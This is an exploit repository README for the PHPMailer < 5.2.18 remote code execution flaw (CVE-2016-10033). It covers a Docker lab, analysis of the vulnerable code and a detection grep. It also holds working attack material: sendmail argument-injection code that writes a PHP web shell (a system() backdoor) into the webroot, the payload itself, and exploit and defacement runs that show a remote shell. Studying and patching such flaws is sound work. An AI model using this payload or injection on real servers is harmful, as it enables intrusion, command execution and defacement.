


# PHPMailer < 5.2.18 Remote Code Execution
[](https://hub.docker.com/r/vulnerables/cve-2016-10033/)


PHPMailer is the world's most popular transport class, with an estimated 9 million users worldwide. Downloads continue at a significant pace daily. Used by many open-source projects: WordPress, Drupal, 1CRM, SugarCRM, Yii, Joomla! and many more

PHPMailer before its version 5.2.18 suffer from a vulnerability that could lead to remote code execution (RCE). The mailSend function in the isMail transport in PHPMailer, when the Sender property is not set, might allow remote attackers to pass extra parameters to the mail command and consequently execute arbitrary code via a \" (backslash double quote) in a crafted From address.

### Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033

And it will spawn a vulnerable web application on your host on `8080` port



### Exploit

To exploit this target just run:

    ./exploit host:port

If you are using this vulnerable image, you can just run:

    ./exploit localhost:8080

After the exploitation, a file called backdoor.php will be stored on the root folder of the web directory. And the exploit will drop you a shell where you can send commands to the backdoor:

    ./exploit.sh localhost:8080
    [+] CVE-2016-10033 exploit by opsxcq
    [+] Exploiting localhost:8080
    [+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
    [+] Checking if the backdoor was created on target system
    [+] Backdoor.php found on remote system
    [+] Running whoami
    www-data
    RemoteShell> 
    
And that's it, you have your shell. There is another exploit, which ilustrates another use case.

    ./deface.sh localhost:8080
    [+] CVE-2016-10033 exploit by opsxcq
    [+] Exploiting localhost:8080
    [+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
    [+] Checking if the backdoor was created on target system
    [+] Backdoor.php found on remote system
    [+] Placing your message in the server
    [+] Job done, exiting

And if you visit the page again, you will see this:



### Vulnerable code

Before this [commit](https://github.com/PHPMailer/PHPMailer/commit/4835657cd639fbd09afd33307cef164edf807cdc) in [class.phpmailer.php](https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/src/class.phpmailer.php#L1445) in a certain scenario there is no filter in the sender's email address special chars. This flaw can lead to a remote code execution, via `mail` function [here](https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/src/class.phpmailer.php#L700).

Analysing the code, there is no filter in `mailSend()` function

```php
        $params = null;
        //This sets the SMTP envelope sender which gets turned into a return-path header by the receiver
        if (!empty($this->Sender)) {
            $params = sprintf('-f%s', $this->Sender);
        }
```

`$this->Sender` is directly appended to `$params` variable, which was filtered in `validateAddress()` function, but as it uses RFC 3696 specification, it allow certain characters which will break things.
In this case, quotes:

>  In addition to quoting using the backslash character, conventional
>  double-quote characters may be used to surround strings.  For example
>
>  "Abc@def"@example.com
>
>  "Fred Bloggs"@example.com
>
>  are alternate forms of the first two examples above.  These quoted
>  forms are rarely recommended, and are uncommon in practice, but, as
>  discussed above, must be supported by applications that are
>  processing email addresses.  In particular, the quoted forms often
>  appear in the context of addresses associated with transitions from
>  other systems and contexts; those transitional requirements do still
>  arise and, since a system that accepts a user-provided email address
>  cannot "know" whether that address is associated with a legacy
>  system, the address forms must be accepted and passed into the email
>  environment.

You can read the whole RFC [here](https://tools.ietf.org/rfc/rfc3696.txt) if you want. But also, if PHP version is inferior to 5.2.0, and there is no PCRE installed, `$patternselect` variable in `validateAddress()` will be set to `noregex`. It will cause the input will be able to avoid any regex check. It will only pass through a small verification:

```php
            case 'noregex':
                //No PCRE! Do something _very_ approximate!
                //Check the address is 3 chars or longer and contains an @ that's not the first or last char
                return (strlen($address) >= 3
                    and strpos($address, '@') >= 1
                    and strpos($address, '@') != strlen($address) - 1);
```

Then, the code flow goes to `mailPassthru()` function, which, if running in `safe_mode` won't be vulnerable to this flaw, as the following code states it

```php
        //Can't use additional_parameters in safe_mode
        //@link http://php.net/manual/en/function.mail.php
        if (ini_get('safe_mode') or !$this->UseSendmailOptions or is_null($params)) {
            $result = @mail($to, $subject, $body, $header);
        } else {
            $result = @mail($to, $subject, $body, $header, $params);
        }
```

But, if it isn't running in `safe_mode`, then our **special parameter** will be passed to `mail()` and, if we were lucky, it will get our file containing whatever we want to be written where we choose it to be wrote to.

### Notes about PHP mail() function exploitation

The exploitation of PHP mail() function isn't a new thing, but it still alive and people still using it. To explain how it works, lets look at how mail() function is defined:

```php
bool mail ( string $to , string $subject , string $message [, string $additional_headers [, string $additional_parameters ]] )
```

There are several exploitation methods for different results, we will focus on the exploitation of the **5th parameter** to get Remote Code Execution (RCE). The parameter `$additional_parameters` is used to pass additional flags as command line options to the program configured to send the email. This configuration is defined by the `sendmail_path` variable.

A security note from [php official documentation](http://php.net/manual/en/function.mail.php):

> The additional\_parameters parameter can be used to pass additional flags as command line options to the program configured to be used when sending mail, as defined by the sendmail_path configuration setting. For example, this can be used to set the envelope sender address when using sendmail with the -f sendmiail option.

> This parameter is escaped by escapeshellcmd() internally to prevent command execution. escapeshellcmd() prevents command execution, but allows to add additional parameters. For security reasons, it is recommended for the user to sanitize this parameter to avoid adding unwanted parameters to the shell command.

Considering the additional parameters that can be injectected we will use `-X` to exploit this flaw. More about the `-X` parameter

    -X logfile
    Log all traffic in and out of mailers in the indicated log file. This should only be used as a last resort for debugging mailer bugs. It will log a lot of data very quickly.

There are also some other interesting parameters that you should know that exist:

    -Cfile
    Use alternate configuration file. Sendmail gives up any enhanced (set-user-ID or set-group-ID) privileges if an alternate configuration file is specified.

And

    -O option=value
    Set option option to the specified value. This form uses long names.

And for `-O` option, the `QueueDirectory` is the most interesting option there, this option select the directory in which to queue messages.

If you want to read the whole list of parameters and options, just `man sendmail` or read it online [here](https://linux.die.net/man/8/sendmail.sendmail)

Based on this information, and the hability to control at least one of the other parameters, we can exploit the host. Bellow the steps for a successful exploitation:

 * Control `$additional_parameters` and another `mail()` parameter
 * Know a **writeable** diretory on target host which is accessible via the target system and user (www-data for example). Usually this directory can be anything bellow `webroot` (aka /var/www/html for another systems, /www for this example)
 * Any PHP payload that you want, we are using a simple `system()` payload in this example, with a spice of base64 and some special characters `|` to make it easier to parse. 
 * Just assembly everything together !

Remember that the `-X` option will write the log file, that will contain among the log information your PHP payload, in the directory that you will inform. An example of a vulnerable PHP code:

```php
$to = 'hacker@server.com';
$subject = '<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>';
$message = 'Pwned';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/www/backdoor.php';
mail($to, $subject, $message, $headers, $options);
```

If you execute the code above, it will create a log file in the `/www/backdoor.php`, this is the essence of this exploit.

### Payload

Bellow the payload used in this example

    <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>

### I wanna chase bugs, now what ?

Want a easy, one command, way to try to spot this flaw ? Remind this magic grep command !

    grep -r -n --include "*.php" "mail(.*,.*,.*,.*,.*)" *

Running it against this repository will result in

    src/class.phpmailer.php:700:            $result = @mail($to, $subject, $body, $header, $params);

### Credits

This vulnerability was found by Dawid Golunski.

### Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (opsxcq) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not opsxcq's responsibility.
